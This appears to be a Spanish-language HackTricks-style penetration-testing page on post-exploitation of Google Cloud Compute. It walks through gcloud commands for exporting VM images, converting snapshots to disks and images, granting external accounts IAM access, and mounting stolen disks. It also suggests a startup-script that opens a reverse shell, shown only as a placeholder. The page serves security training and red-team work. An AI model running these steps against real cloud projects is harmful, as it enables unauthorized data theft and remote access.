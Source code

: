 # GCP - Compute Post Explotación

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Para más información sobre Compute y VPC (Redes) consulta:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Exportar e Inspeccionar Imágenes localmente

Esto permitiría a un atacante **acceder a los datos contenidos dentro de imágenes ya existentes** o **crear nuevas imágenes de VMs en ejecución** y acceder a sus datos sin tener acceso a la VM en ejecución.

Es posible exportar una imagen de VM a un bucket y luego descargarla y montarla localmente con el comando:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Para realizar esta acción, el atacante podría necesitar privilegios sobre el bucket de almacenamiento y, sin duda, **privilegios sobre cloudbuild**, ya que es el **servicio** que se va a solicitar para realizar la exportación.\
Además, para que esto funcione, el SA de codebuild y el SA de compute necesitan permisos privilegiados.\
El SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` necesita:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Y el SA `<project-id>-compute@developer.gserviceaccount.com` necesita:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Exportar e Inspeccionar Instantáneas y Discos localmente

No es posible exportar instantáneas y discos directamente, pero es posible **transformar una instantánea en un disco, un disco en una imagen** y, siguiendo la **sección anterior**, exportar esa imagen para inspeccionarla localmente.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspeccionar una imagen creando una VM

Con el objetivo de acceder a los **datos almacenados en una imagen** o dentro de una **VM en ejecución** desde donde un atacante **ha creado una imagen,** es posible otorgar a una cuenta externa acceso a la imagen:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
y luego crea una nueva VM a partir de ella:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si no pudiste dar acceso a tu cuenta externa a través de la imagen, podrías lanzar una VM usando esa imagen en el proyecto de la víctima y **hacer que los metadatos ejecuten un reverse shell** para acceder a la imagen añadiendo el parámetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspeccionar un Snapshot/Disk adjuntándolo a una VM

Con el objetivo de acceder a los **datos almacenados en un disco o un snapshot, podrías transformar el snapshot en un disco, un disco en una imagen y seguir los pasos anteriores.**

O podrías **otorgar acceso a una cuenta externa** sobre el disco (si el punto de partida es un snapshot, otorga acceso sobre el snapshot o crea un disco a partir de él):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Adjuntar el disco** a una instancia:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar el disco dentro de la VM:

1.  **SSH en la VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identificar el Disco**: Una vez dentro de la VM, identifica el nuevo disco listando los dispositivos de disco. Típicamente, puedes encontrarlo como `/dev/sdb`, `/dev/sdc`, etc.
3.  **Formatear y Montar el Disco** (si es un disco nuevo o en bruto):

- Crear un punto de montaje:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Montar el disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si **no puedes dar acceso a un proyecto externo** a la instantánea o disco, es posible que necesites **realizar estas acciones dentro de una instancia en el mismo proyecto que la instantánea/disco**.

{{#include ../../../banners/hacktricks-training.md}}
